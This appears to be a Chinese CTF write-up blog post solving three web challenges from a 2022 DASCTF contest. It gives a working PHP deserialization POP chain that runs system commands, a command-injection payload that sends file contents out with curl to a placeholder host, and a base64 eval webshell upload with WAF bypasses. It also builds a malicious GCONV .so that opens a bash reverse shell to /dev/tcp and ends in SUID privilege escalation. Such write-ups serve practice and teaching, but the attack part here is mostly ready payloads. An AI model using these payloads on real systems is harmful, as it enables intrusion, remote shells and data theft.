






ezpop
打开题目之后得到一串php代码
<?php
class crow
{
public $v1;
public $v2;
function eval() {
echo new $this->v1($this->v2);
}
public function __invoke()
{
$this->v1->world();
}
}
class fin
{
public $f1;
public function __destruct()
{
echo $this->f1 . '114514';
}
public function run()
{
($this->f1)();
}
public function __call($a, $b)
{
echo $this->f1->get_flag();
}
}
class what
{
public $a;
public function __toString()
{
$this->a->run();
return 'hello';
}
}
class mix
{
public $m1;
public function run()
{
($this->m1)();
}
public function get_flag()
{
eval('#' . $this->m1);
}
}
if (isset($_POST['cmd'])) {
unserialize($_POST['cmd']);
} else {
highlight_file(__FILE__);
}审计得到pop链
fin::__destruct()
what::__toString()
mix::run()
crow::__invoke()
fin::__call()
mix::get_flag()构造恶意链
<?php
class what
{
public $a;
public function __construct(){
$this->a = new fin();
}
}
class mix{
public $m1;
public function __construct(){
$this->m1 = "?><?=system('cat *');";
}
public function get_flag()
{
eval('#' . $this->m1);
}
}
class fin{
public $f1;
public function __construct(){
$this->f1 = array(new mix(), 'get_flag');
}
}
$a = new fin();
$a->f1 = new what();
echo urlencode(serialize($a));其中使用?>来闭合前面的注释符
calc
得到app.py
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time
app=Flask(__name__)
def waf(s):
blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
flag = True
for no in blacklist:
if no.lower() in s.lower():
flag= False
print(no)
break
return flag
@app.route("/")
def index():
"欢迎来到SUctf2022"
return render_template("index.html")
@app.route("/calc",methods=['GET'])
def calc():
ip = request.remote_addr
num = request.values.get("num")
log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
if waf(num):
try:
data = eval(num)
os.system(log)
except:
pass
return str(data)
else:
return "waf!!"
if __name__ == "__main__":
app.run(host='0.0.0.0',port=5000) 里面的waf()过滤了大部分的命令执行，但是因为环境是在linux中的，我们同样可以通过 ` 执行命令
但是eval会干扰我们的我们命令执行
我们需要绕过eval，使得他失效，又因为linux中的#和python中的#不同，在linux中，如果#和字符在一起的话，就会把他当作字符，但是在python中不是的。同样linux中也可以将#转义，python中是无法转义的。
执行
1#`ls`执行成功，但是没有回显，我们通过curl命令带出数据
#当然这里过滤了空格我们使用%09绕过
num=1%23`curl xxxxx?flag=\`ls\``
Th1s_is__F1114g
num=1%23`curl xxxxx?flag=\`cat%09Th*\``
upgdstore
开局就是一个上传文件，先上一个shell，好的，成功失败
那就先上传一个phpinfo()看看啊<?php phpinfo();?>

禁掉了一大堆的函数，对比可以发现还有show_source file_get_contents可以读取文件
但是经过测试，无法使用show_source， 应该是有WAF过滤掉了他，我们使用base64编码绕过

成功读取到了index.php文件内容
<div class="light"><span class="glow">
<form enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
嘿伙计，传个火？！
<input class="input_file" type="file" name="upload_file"/>
<input class="button" type="submit" name="submit" value="upload"/>
</form>
</span><span class="flare"></span><div>
<?php
function fun($var): bool{
$blacklist = ["\$_", "eval","copy" ,"assert","usort","include", "require", "$", "^", "~", "-", "%", "*","file","fopen","fwriter","fput","copy","curl","fread","fget","function_exists","dl","putenv","system","exec","shell_exec","passthru","proc_open","proc_close", "proc_get_status","checkdnsrr","getmxrr","getservbyname","getservbyport", "syslog","popen","show_source","highlight_file","`","chmod"];
foreach($blacklist as $blackword){
if(strstr($var, $blackword)) return True;
}
return False;
}
error_reporting(0);
//设置上传目录
define("UPLOAD_PATH", "./uploads");
$msg = "Upload Success!";
if (isset($_POST['submit'])) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$file_name = $_FILES['upload_file']['name'];
$ext = pathinfo($file_name,PATHINFO_EXTENSION);
if(!preg_match("/php/i", strtolower($ext))){
die("只要好看的php");
}
$content = file_get_contents($temp_file);
if(fun($content)){
die("诶，被我发现了吧");
}
$new_file_name = md5($file_name).".".$ext;
$img_path = UPLOAD_PATH . '/' . $new_file_name;
if (move_uploaded_file($temp_file, $img_path)){
$is_upload = true;
} else {
$msg = 'Upload Failed!';
die();
}
echo '<div style="color:#F00">'.$msg." Look here~ ".$img_path."</div>";
}从代码中也可以发现show_source的确是被黑名单过滤了，代码审计知道这里有个strstr函数，他对大小写敏感，这里黑名单的函数都可以大小写绕过
尝试使用Eval写马 PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pOz8+，当然，这里还是存在waf过滤了的，我们利用include + php协议的组合绕过waf过滤(include在index.php的黑名单中，我们大写绕过)
再次上传一个利用刚刚那个马的php文件
<?php Include(base64_decode("cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWRlY29kZS9yZXNvdXJjZT0yNWE0NTI5MjcxMTBlMzlhMzQ1YTI1MTFjNTc2NDdmMi5waHA="));?>
现在就可以成功执行命令了

我们就需要bypass disable funtion了
(19条消息) 使用GCONV_PATH与iconv进行bypass disable_functions_lesion__的博客-CSDN博客
编辑好exp.c
#include <stdio.h>
#include <stdlib.h>
void gconv(){}
void gconv_init(){
system("bash -c 'bash -i &> /dev/tcp/ip/port 0<&1'");
}生成恶意so文件
gcc exp.c -o exp.so -shared -fPIC在写好gconv-modules文件
module EXP// INTERNAL ../../../../../../../../tmp/exp 2
module INTERNAL EXP// ../../../../../../../../tmp/exp 2现在呢，需要上传文件，这也不好上传啊，我们来仿造index.php来伪造一个没有WAF的文件上传方式啊
利用前面的方式绕过WAF
PGRpdiBjbGFzcz0ibGlnaHQiPjxzcGFuIGNsYXNzPSJnbG93Ij4NCjxmb3JtIGVuY3R5cGU9Im11bHRpcGFydC9mb3JtLWRhdGEiIG1ldGhvZD0icG9zdCIgb25zdWJtaXQ9InJldHVybiBjaGVja0ZpbGUoKSI+DQogICAg5Zi/5LyZ6K6h77yM5Lyg5Liq54Gr77yf77yBDQogICAgPGlucHV0IGNsYXNzPSJpbnB1dF9maWxlIiB0eXBlPSJmaWxlIiBuYW1lPSJ1cGxvYWRfZmlsZSIvPg0KICAgIDxpbnB1dCBjbGFzcz0iYnV0dG9uIiB0eXBlPSJzdWJtaXQiIG5hbWU9InN1Ym1pdCIgdmFsdWU9InVwbG9hZCIvPg0KPC9mb3JtPg0KPC9zcGFuPjxzcGFuIGNsYXNzPSJmbGFyZSI+PC9zcGFuPjxkaXY+DQo8P3BocA0KZXJyb3JfcmVwb3J0aW5nKDApOw0KLy/orr7nva7kuIrkvKDnm67lvZUNCmRlZmluZSgiVVBMT0FEX1BBVEgiLCAiL3RtcCIpOw0KJG1zZyA9ICJVcGxvYWQgU3VjY2VzcyEiOw0KaWYgKGlzc2V0KCRfUE9TVFsnc3VibWl0J10pKSB7DQokdGVtcF9maWxlID0gJF9GSUxFU1sndXBsb2FkX2ZpbGUnXVsndG1wX25hbWUnXTsNCiRmaWxlX25hbWUgPSAkX0ZJTEVTWyd1cGxvYWRfZmlsZSddWyduYW1lJ107DQokZXh0ID0gcGF0aGluZm8oJGZpbGVfbmFtZSxQQVRISU5GT19FWFRFTlNJT04pOw0KDQokY29udGVudCA9IGZpbGVfZ2V0X2NvbnRlbnRzKCR0ZW1wX2ZpbGUpOw0KDQokbmV3X2ZpbGVfbmFtZSA9ICRmaWxlX25hbWU7DQogICAgICAgICRpbWdfcGF0aCA9IFVQTE9BRF9QQVRIIC4gJy8nIC4gJG5ld19maWxlX25hbWU7DQogICAgICAgIGlmIChtb3ZlX3VwbG9hZGVkX2ZpbGUoJHRlbXBfZmlsZSwgJGltZ19wYXRoKSl7DQogICAgICAgICAgICAkaXNfdXBsb2FkID0gdHJ1ZTsNCiAgICAgICAgfSBlbHNlIHsNCiAgICAgICAgICAgICRtc2cgPSAnVXBsb2FkIEZhaWxlZCEnOw0KICAgICAgICAgICAgZGllKCk7DQogICAgICAgIH0NCiAgICAgICAgZWNobyAnPGRpdiBzdHlsZT0iY29sb3I6I0YwMCI+Jy4kbXNnLiIgTG9vayBoZXJlfiAiLiRpbWdfcGF0aC4iPC9kaXY+IjsNCn0=然后再次php伪协议包含他

现在！上传！
emm传不了，没事，我们在index.php中像上面一样php伪协议包含他
<?php Include(base64_decode('cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWRlY29kZS9yZXNvdXJjZT05MmJmY2I1Njc0MmNlMTk0NzYxNzkzMjUzMTViMDBlYi5waHA='));?>
然后访问这个文件，就可以上传了，传！

现在文件都传入/tmp目录下了，我们就要去触发漏洞了
1=putenv("GCONV_PATH=/tmp/");include('php://filter/read=convert.iconv.exp.utf-8/resource=/tmp/exp.so');成功反弹shell回来，SUID提权得到flag


- Post link: https://roboterh.github.io/2022/03/28/DASCTF-X-SU-%E4%B8%89%E6%9C%88%E6%98%A5%E5%AD%A3%E6%8C%91%E6%88%98%E8%B5%9B%E5%A4%8D%E7%8E%B0/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.